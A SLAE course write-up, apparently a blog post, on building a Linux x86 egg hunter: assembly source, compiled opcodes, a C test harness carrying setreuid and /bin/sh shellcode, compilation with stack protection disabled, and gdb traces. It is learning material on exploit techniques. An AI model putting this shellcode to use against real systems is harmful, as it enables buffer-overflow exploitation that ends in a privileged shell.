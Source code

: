 # Assignement 3 #

This third exercise is about coding an "Egg Hunter shellcode". This is a way to compensate the lack of memory necessary in order to add up the shellcode in memory. The program searches in memory a sequence indicating the beginning of the shellcode. This sequence must be a series of opcodes that are unlikely to be contiguous so easy to recognize. As we are on a 32 bits architecture we shall use a 4 bytes key (Egg Key).

Source :
https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf
http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf


In order to improve the chances to find it, it is advisable to double its size.

## EggKey definition ##

We are going to use the key "b33fb33f". This choice is arbitrary, it’s a pattern easy to identify and that has few chances of existting out of this context.

The Egg hunter program will browse the memory looking for the key previously defined. When it will try to access to a non-mapped memory area this will cause a system error (SIGSEV). It is thus necessary to know an address reachable in the same segment for the shellcode and the key.

The idea is presented in the below description.

```c
[egg hunter][random memory][egg][shellcode]
````

We are going to create a EggHunter whose function will be to search for the key in the memory. It is necessary to be sure to be in the right segment. 

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

We compile all of it:

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Then we are going to modify the C program so that it takes into account the shellcode, the Egg key and the Egg hunter.

We use the shellcode from assignment 6. It executes a setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f" // EggKey
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

The compilation runs the same way:

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

We test all of it:

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./eggHunter_test
Taille de l'Egg Hhunter 20
Adresse du Shellcode: 0x804a060
$ 
```

### Détails : ###

The egg Hunter works as follows:
We notice the address got from the pop eax. It is valid and will be used as start off for the search.

Once the key is found, we make a leap to this address which is the beginning of the shellcode.

```c
EAX: 0x8048074 --> 0x0           ; valid address from jump pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>

We observe in the stack the key in the egg as well as at the beginning of the shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763
